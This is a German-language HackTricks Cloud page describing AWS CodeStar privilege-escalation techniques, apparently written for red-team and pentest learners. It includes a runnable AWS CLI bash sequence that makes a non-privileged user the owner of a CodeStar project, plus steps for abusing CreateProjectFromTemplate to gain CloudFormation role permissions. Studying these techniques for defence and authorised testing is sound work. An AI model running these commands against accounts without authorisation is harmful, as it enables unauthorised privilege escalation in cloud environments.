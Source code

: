 # AWS - Codestar Privesc

{% hint style="success" %}
Lerne & übe AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Lerne & übe GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Überprüfe die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Tritt der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folge** uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Teile Hacking-Tricks, indem du PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos einreichst.

</details>
{% endhint %}

## Codestar

Du kannst mehr Informationen über Codestar finden in:

{% content-ref url="codestar-createproject-codestar-associateteammember.md" %}
[codestar-createproject-codestar-associateteammember.md](codestar-createproject-codestar-associateteammember.md)
{% endcontent-ref %}

### `iam:PassRole`, `codestar:CreateProject`

Mit diesen Berechtigungen kannst du **eine Codestar IAM-Rolle missbrauchen**, um **willkürliche Aktionen** über eine **CloudFormation-Vorlage** auszuführen. Überprüfe die folgende Seite:

{% content-ref url="iam-passrole-codestar-createproject.md" %}
[iam-passrole-codestar-createproject.md](iam-passrole-codestar-createproject.md)
{% endcontent-ref %}

### `codestar:CreateProject`, `codestar:AssociateTeamMember`

Diese Technik verwendet `codestar:CreateProject`, um ein Codestar-Projekt zu erstellen, und `codestar:AssociateTeamMember`, um einen IAM-Benutzer zum **Besitzer** eines neuen CodeStar-**Projekts** zu machen, was ihnen eine **neue Richtlinie mit einigen zusätzlichen Berechtigungen** gewährt.
```bash
PROJECT_NAME="supercodestar"

aws --profile "$NON_PRIV_PROFILE_USER" codestar create-project \
--name $PROJECT_NAME \
--id $PROJECT_NAME

echo "Waiting 1min to start the project"
sleep 60

USER_ARN=$(aws --profile "$NON_PRIV_PROFILE_USER" opsworks describe-my-user-profile | jq .UserProfile.IamUserArn | tr -d '"')

aws --profile "$NON_PRIV_PROFILE_USER" codestar associate-team-member \
--project-id $PROJECT_NAME \
--user-arn "$USER_ARN" \
--project-role "Owner" \
--remote-access-allowed
```
Wenn Sie bereits ein **Mitglied des Projekts** sind, können Sie die Berechtigung **`codestar:UpdateTeamMember`** verwenden, um **Ihre Rolle** auf Eigentümer anstelle von `codestar:AssociateTeamMember` zu aktualisieren.

**Potenzielle Auswirkungen:** Privesc zur codestar-Policy, die generiert wurde. Ein Beispiel für diese Policy finden Sie in:

{% content-ref url="codestar-createproject-codestar-associateteammember.md" %}
[codestar-createproject-codestar-associateteammember.md](codestar-createproject-codestar-associateteammember.md)
{% endcontent-ref %}

### `codestar:CreateProjectFromTemplate`

1. **Ein neues Projekt erstellen:**
* Nutzen Sie die **`codestar:CreateProjectFromTemplate`**-Aktion, um die Erstellung eines neuen Projekts zu initiieren.
* Nach erfolgreicher Erstellung wird automatisch Zugriff auf **`cloudformation:UpdateStack`** gewährt.
* Dieser Zugriff zielt speziell auf einen Stack, der mit der `CodeStarWorker-<generischer Projektname>-CloudFormation` IAM-Rolle verbunden ist.
2. **Aktualisieren Sie den Ziel-Stack:**
* Mit den gewährten CloudFormation-Berechtigungen fahren Sie fort, den angegebenen Stack zu aktualisieren.
* Der Name des Stacks wird typischerweise einem von zwei Mustern entsprechen:
* `awscodestar-<generischer Projektname>-infrastructure`
* `awscodestar-<generischer Projektname>-lambda`
* Der genaue Name hängt von der gewählten Vorlage ab (siehe das Beispiel-Exploit-Skript).
3. **Zugriff und Berechtigungen:**
* Nach der Aktualisierung erhalten Sie die Fähigkeiten, die der **CloudFormation IAM-Rolle** zugeordnet sind, die mit dem Stack verbunden ist.
* Hinweis: Dies gewährt nicht automatisch vollständige Administratorrechte. Weitere falsch konfigurierte Ressourcen innerhalb der Umgebung könnten erforderlich sein, um die Berechtigungen weiter zu erhöhen.

Für weitere Informationen überprüfen Sie die ursprüngliche Forschung: [https://rhinosecuritylabs.com/aws/escalating-aws-iam-privileges-undocumented-codestar-api/](https://rhinosecuritylabs.com/aws/escalating-aws-iam-privileges-undocumented-codestar-api/).\
Sie finden das Exploit unter [https://github.com/RhinoSecurityLabs/Cloud-Security-Research/blob/master/AWS/codestar\_createprojectfromtemplate\_privesc/CodeStarPrivEsc.py](https://github.com/RhinoSecurityLabs/Cloud-Security-Research/blob/master/AWS/codestar_createprojectfromtemplate_privesc/CodeStarPrivEsc.py)

**Potenzielle Auswirkungen:** Privesc zur CloudFormation IAM-Rolle.

{% hint style="success" %}
Lernen & üben Sie AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Lernen & üben Sie GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstützen Sie HackTricks</summary>

* Überprüfen Sie die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Teilen Sie Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos senden.

</details>
{% endhint %}
